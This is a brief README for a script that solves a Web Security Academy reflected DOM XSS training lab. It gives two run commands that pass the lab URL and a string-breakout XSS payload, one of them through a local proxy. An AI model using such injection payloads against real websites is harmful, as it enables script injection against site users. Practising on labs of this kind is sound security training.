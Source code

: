 # How to run script.py

### Reflected DOM XSS

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "\\\"-alert('XSS')}//"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "\\\"-alert('XSS')}//" -p 127.0.0.1:8080`
